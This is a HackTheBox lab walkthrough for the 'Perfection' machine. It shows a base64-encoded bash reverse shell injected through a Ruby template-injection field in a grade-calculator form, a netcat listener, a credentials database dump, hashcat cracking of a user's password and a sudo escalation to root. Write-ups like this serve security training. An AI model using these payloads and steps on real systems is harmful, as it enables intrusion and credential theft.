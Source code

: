 # 🦸 Perfection HackTheBox Walkthrough!!

<figure><img src=".gitbook/assets/1 _nlKfQW16KC1ieR3EL8vwA.png" alt=""><figcaption></figcaption></figure>

Add IP into the host file

```
nano /etc/hosts
```

<figure><img src=".gitbook/assets/Screenshot 2024-03-09 at 16-28-25 Weighted Grade Calculator.png" alt=""><figcaption><p><a href="http://10.10.11.253/">http://perfection.htb/</a></p></figcaption></figure>

**NMAP RESULT**

```
┌──(Batman㉿GC)-[~]
└─$ nmap -A 10.10.11.253 -Pn
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-09 16:26 IST
Nmap scan report for perfection.htb (10.10.11.253)
Host is up (0.20s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
|_  256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
80/tcp open  http    nginx
|_http-title: Weighted Grade Calculator
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.17 seconds
```

**GAINING ACCESS**

* Generate Payload

Using hURL command to encode and decode payloads showcases the manipulation of data to exploit web application vulnerabilities. The payload crafted for the Weighted Grade Calculator application is designed to execute a reverse shell command, taking advantage of any potential server-side code execution vulnerabilities.

```
┌──(Batman㉿GC)-[~]
└─$ hURL -B "bash -i >& /dev/tcp/10.10.14.69/1337 0>&1"

Original       :: bash -i >& /dev/tcp/10.10.14.69/1337 0>&1                                                                  
base64 ENcoded :: YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42OS8xMzM3IDA+JjE=
```

```
┌──(Batman㉿GC)-[~]
└─$  hURL -U "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42OS8xMzM3IDA+JjE="

Original    :: YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42OS8xMzM3IDA+JjE=                                                      
URL ENcoded :: YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC42OS8xMzM3IDA%2BJjE%3D
```

We have to inject URL-encoded payload to the POST request of "Calculate your weighted grade".

<figure><img src=".gitbook/assets/Screenshot 2024-03-09 at 5.26.37 PM.png" alt=""><figcaption></figcaption></figure>

`grade1=1&weight1=100&category2=N%2FA&grade2=1&weight2=0&category3=N%2FA&grade3=1&weight3=0&category4=N%2FA&grade4=1&weight4=0&category5=N%2FA&grade5=1&weight5=0&category1`**`=a%0A<%25%3dsystem("echo+YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC42OS8xMzM3IDA%2BJjE%3D |+base64+-d+|+bash");%25>1`**

Also, enable a Netcat listener in the terminal to get a reverse shell connection.

```
┌──(Batman㉿GC)-[~]
└─$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.69] from (UNKNOWN) [10.10.11.253] 57316
bash: cannot set terminal process group (984): Inappropriate ioctl for device
bash: no job control in this shell
susan@perfection:~/ruby_app$ ls
ls
main.rb
public
views
susan@perfection:~/ruby_app$ cd /home
cd /home
susan@perfection:/home$ ls
ls
susan
susan@perfection:/home$ cd susan
cd susan
susan@perfection:~$ ls
ls
Migration
ruby_app
user.txt
susan@perfection:~$ cat user.txt
cat user.txt
2de7aca06461cfe--------
susan@perfection:~$ 
```

On further enumerations, we can find hashes of other users

```
susan@perfection:~$ cd Migration
cd Migration
susan@perfection:~/Migration$ ls
ls
pupilpath_credentials.db
susan@perfection:~/Migration$ strings pupilpath_credentials.db
strings pupilpath_credentials.db
SQLite format 3
tableusersusers
CREATE TABLE users (
id INTEGER PRIMARY KEY,
name TEXT,
password TEXT
Stephen Locke154a38b253b4e08cba818ff65eb4413f20518------------------------
David Lawrenceff7aedd2f4512ee1848a3e18f86c4450c1c76-------------------------
Harry Tylerd33a689526d49d32a01986ef5a1a3d2afc0aaee4-------------------------
Tina Smithdd560928c97354e3c22972554c81901b74ad1b35f-------------------------
Susan Millerabeb6f8eb5722b8ca3b45f6f72a0cf17c7028d6-------------------------
```

Now copy all the hashes we found.

**CRACK THE HASH \[HASHCAT]**

Using Hashcat crack the password of Susan.

```
┌──(Batman㉿GC)-[~]
└─$ hashcat -m 1400 hash.txt  -a 3 susan_nasus_?d?d?d?d?d?d?d?d?d
<HASH OF SUSAN> :susan_nasus_413XXXXXXX
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1400 (SHA2-256)
Hash.Target......: abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a3019934...39023f
Time.Started.....: Sat Mar  9 17:38:59 2024 (1 min, 50 secs)
Time.Estimated...: Sat Mar  9 17:40:49 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Mask.......: susan_nasus_?d?d?d?d?d?d?d?d?d [21]
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  2310.9 kH/s (0.47ms) @ Accel:512 Loops:1 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 324559872/1000000000 (32.46%)
Rejected.........: 0/324559872 (0.00%)
Restore.Point....: 324556800/1000000000 (32.46%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: susan_nasus_126824210 -> susan_nasus_296471462

Started: Sat Mar  9 17:38:56 2024
Stopped: Sat Mar  9 17:40:50 2024
```

Now use the password to log in with user Susan.

```
┌──(Batman㉿GC)-[~]
└─$ ssh susan@10.10.11.253
susan@10.10.11.253's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-97-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

  System information as of Sat Mar  9 12:13:27 PM UTC 2024

  System load:           0.1611328125
  Usage of /:            51.0% of 5.80GB
  Memory usage:          6%
  Swap usage:            0%
  Processes:             246
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.253
  IPv6 address for eth0: dead:beef::250:56ff:feb9:d2ee


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

4 additional security updates can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

You have mail.
susan@perfection:~$
```

&#x20;**PRIVILEGE ESCALATION**

```
susan@perfection:~$ sudo -l
[sudo] password for susan: 
Matching Defaults entries for susan on perfection:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User susan may run the following commands on perfection:
    (ALL : ALL) ALL
```

Here user Susan has permission to log in with the root

```
susan@perfection:~$ sudo su
root@perfection:/home/susan# cd /root
root@perfection:~# cat root.txt
eb33392e900c84405d------------
root@perfection:~#
```

Hurray!! Got the root access.
